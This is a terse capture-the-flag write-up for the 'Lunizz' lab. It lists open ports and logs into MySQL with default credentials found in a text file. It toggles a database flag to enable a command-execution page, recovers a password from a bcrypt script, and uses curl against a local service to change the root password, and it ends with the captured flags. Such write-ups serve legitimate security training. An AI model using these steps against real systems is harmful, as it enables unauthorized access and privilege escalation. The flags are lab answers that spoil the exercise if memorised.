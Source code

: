 # Lunizz_CTF 

> VOiD | Saturday 06 November 2021 09:46:23 PM IST

My IP :10.8.253.221
Target IP : 10.10.106.91



PORT     STATE SERVICE REASON
80/tcp   open  http    syn-ack
3306/tcp open  mysql   syn-ack
4444/tcp open  krb524  syn-ack
5000/tcp open  upnp    syn-ack



## PORT 80[http Apache]
/hidden --> upload page

http://10.10.106.91/instructions.txt
```
Made By CTF_SCRIPTS_CAVE (not real)

Thanks for installing our ctf script

#Steps
- Create a mysql user (runcheck:CTF_script_cave_changeme)
- Change necessary lines of config.php file

Done you can start using ctf script

#Notes
please do not use default creds (IT'S DANGEROUS) <<<<<<<<<---------------------------- READ THIS LINE PLEASE

/whatever --> rce
```
## PORT 3306 [mysql]

Auth Plugin Name: mysql_native_password
```bash
runcheck:CTF_script_cave_changeme

mysql -h 10.10.106.91 -u runcheck -p

use runornot

MySQL [runornot]> select * from runcheck;
+------+
| run  |
+------+
|    0 |
+------+

MySQL [runornot]> update  runcheck set run=1 ;

MySQL [runornot]> select * from runcheck;
+------+
| run  |
+------+
|    1 |
+------+
```


## USER [www-data]
```bash

cat bcrypt_encryption.py 
import bcrypt
import base64

passw = "wewillROCKYOU".encode('ascii')
b64str = base64.b64encode(passw)
hashAndSalt = bcrypt.hashpw(b64str, bcrypt.gensalt())
print(hashAndSalt)

#hashAndSalt = b'$2b$12$LJ3m4rzPGmuN1U/h0IO55.3h9WhI/A0Rcbchmvk10KWRMWe4me81e'
#bcrypt.checkpw()


northernlights

mason : northernlights
cat user.txt 
thm{23cd53cbb37a37a74d4425b703d91883}


active ports
127.0.0.1:8080


curl 127.0.0.1:8080 -d "password=northernlights&cmdtype=passwd"

Password Changed To :northernlights

root@lunizz:/home/adam# cat /root/r00t.txt 
thm{ad23b9c63602960371b50c7a697265db}

```